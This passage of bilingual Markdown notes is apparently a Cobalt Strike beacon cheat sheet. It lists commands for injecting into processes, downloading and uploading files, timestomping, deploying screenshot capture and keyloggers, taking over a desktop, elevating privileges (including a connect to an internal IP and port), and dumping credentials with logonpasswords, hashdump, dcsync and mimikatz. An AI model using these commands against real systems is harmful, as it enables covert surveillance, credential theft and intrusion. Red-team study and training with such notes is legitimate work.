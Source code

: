 1. 方式 1. 右击 Session - Explore - Process List - 选一个进程 Inject

- 右击某进程 - 设置为 PPID, 使用 spawn 时, 会以新 PPID 生成

2. 方式 2. `bacon > spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe`

<br>

**File Downloads**

- Download a file
  - `download [file]` , 下载文件在 %cs%\downloads\ 下
- Cancel a download
  - `cancel [file|*]`
- See file downloads in progress
  - `downloads`
- Get to downloaded files
  - `View->Downloads` , 多选文件后 `Sync Files`

**File Uploads**

- Use upload command to upload a file
  - `upload [/path/to/file]`
- Change file's timestamps
  - `timestomp [destination] [source]`

User Exploitation

- `jobs`
- `jobkill ID`
- Deploy Screenshot Tool
  - `screenshot [pid] [x86|x64] [run time in seconds]`
  - `screenshot 2032 10` # 每 10 秒截图一次
- Deploy Keystroke Logger
  - `keylogger` 或 `keylogger [pid] [x86|x64]`
- Results at:
  - `View -Screenshots` and `View -Keystrokes` 右击 X 可以浮动窗口或分屏
- Watch or control target's desktop / VNC
  - sleep 0
  - desktop [pid] [arch] [low|high]
- Use `desktop` by itself to spawn a temporary process and inject into it.

**Elevate Commands**

- `elevate`
- `runasadmin`, 右击 session - Access - One-Liner, 选 Listener, 生成后复制
  - beacon > runasadmin 粘贴运行, `connect 192.168.239.132 4444`

**Spawn As**

- 用其他用户登录
- `[beacon] -> Access -> Spawn As`

**Credentials and Hashes**

- `logonpasswords` recovers credentials
  - GhostPack [SafetyKatz.exe](https://github.com/GhostPack/SafetyKatz)
  - [Internal Monologue](https://github.com/eladshamir/Internal-Monologue) 不触碰 LSASS 的情况下抓取 NTLM Hashes 的攻击方式
- `hashdump` recovers local account hashes
  - Use `dcsync` for domain accounts, `dcsync [DOMAIN.fqdn] <DOMAIN\user>`
  - `mimikatz !lasdump::sam` for local
  - hashdump 3524 x64 # `hashdump <pid> [x86|x64]`
- `View -> Credentials` to manage
